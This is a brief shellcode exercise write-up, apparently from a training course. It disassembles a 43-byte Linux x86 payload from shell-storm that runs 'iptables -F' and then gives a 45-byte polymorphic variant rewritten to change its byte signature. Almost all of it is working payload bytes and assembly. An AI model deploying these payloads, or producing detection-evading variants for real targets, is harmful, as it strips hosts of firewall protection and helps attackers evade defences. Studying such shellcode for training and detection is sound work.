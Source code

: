 ## Initial nasm code

Original shellcode: [Link](http://shell-storm.org/shellcode/files/shellcode-825.php)

Length: 43 bytes

Obtain from running: 

    echo -ne "\x31\xc0\x50\x66\x68\x2d\x46\x89\xe6\x50\x68\x62\x6c\x65\x73\x68\x69\x70\x74\x61\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x73\x89\xe3\x50\x56\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" | ndisasm -u -
  
    00000000  31C0              xor eax,eax
    00000002  50                push eax
    00000003  66682D46          push word 0x462d
    00000007  89E6              mov esi,esp
    00000009  50                push eax
    0000000A  68626C6573        push dword 0x73656c62
    0000000F  6869707461        push dword 0x61747069
    00000014  6862696E2F        push dword 0x2f6e6962
    00000019  682F2F2F73        push dword 0x732f2f2f
    0000001E  89E3              mov ebx,esp
    00000020  50                push eax
    00000021  56                push esi
    00000022  53                push ebx
    00000023  89E1              mov ecx,esp
    00000025  89C2              mov edx,eax
    00000027  B00B              mov al,0xb
    00000029  CD80              int 0x80
    
  
 ## Polymorphic shellcode

Length: 45 bytes

Obtain from running: 

    echo -ne "\x51\x66\x68\x2d\x46\x8d\x75\xde\x51\x68\x62\x6c\x65\x73\x68\x69\x70\x74\x61\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x73\x8d\x5e\xec\x51\x56\x53\x8d\x4b\xf4\x31\xd2\x6a\x0b\x58\xcd\x80" | ndisasm -u -

    00000000  51                push ecx
    00000001  66682D46          push word 0x462d
    00000005  8D75DE            lea esi,[ebp-0x22]
    00000008  51                push ecx
    00000009  68626C6573        push dword 0x73656c62
    0000000E  6869707461        push dword 0x61747069
    00000013  6862696E2F        push dword 0x2f6e6962
    00000018  682F2F2F73        push dword 0x732f2f2f
    0000001D  8D5EEC            lea ebx,[esi-0x14]
    00000020  51                push ecx
    00000021  56                push esi
    00000022  53                push ebx
    00000023  8D4BF4            lea ecx,[ebx-0xc]
    00000026  31D2              xor edx,edx
    00000028  6A0B              push byte +0xb
    0000002A  58                pop eax
    0000002B  CD80              int 0x80
